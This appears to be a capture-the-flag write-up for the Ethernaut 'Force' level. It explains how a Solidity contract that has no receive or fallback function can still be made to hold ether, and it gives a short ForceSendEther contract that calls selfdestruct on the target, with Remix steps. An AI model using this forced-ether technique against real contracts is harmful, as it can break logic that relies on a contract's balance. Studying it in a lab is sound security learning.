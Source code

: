 # 07 Force

```
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

Fallback methods
Sometimes the best way to attack a contract is with another contract.
See the Help page above, section "Beyond the console"
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

#### Start 


### (1) ` make the balance of the contract greater than zero`

The hint he tells us about  self destroying 

Looking at the code, You can see  the contract have nothing, then you can't send ether because there is no `fallback()` or `recive()` function.

#### `selfdestruct()` 

`selfdestruct()` can be deleted contract from the blockchain and sends all remaining Ether in their contract to another contract

how do we do

.

.

.


.

.

.


Have to write a new contract with the function `selfdestruct()` and send ether into that contract then call `selfdestruct()`.

#### This is the code I used to Force  send ether
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract ForceSendEther {
  
    function forceSendEther(address payable _to) public payable {
       selfdestruct((_to));
    }

}

```

Use remix deploy contract `ForceSendEther`  then call the function `forceSendEther(address payable _to) public payable` 

enter the input argument as the address to which you want to send ether and confirm transaction

.

.  then

.

Click button Submit instance and confirm transaction

# !!! we passed !!!



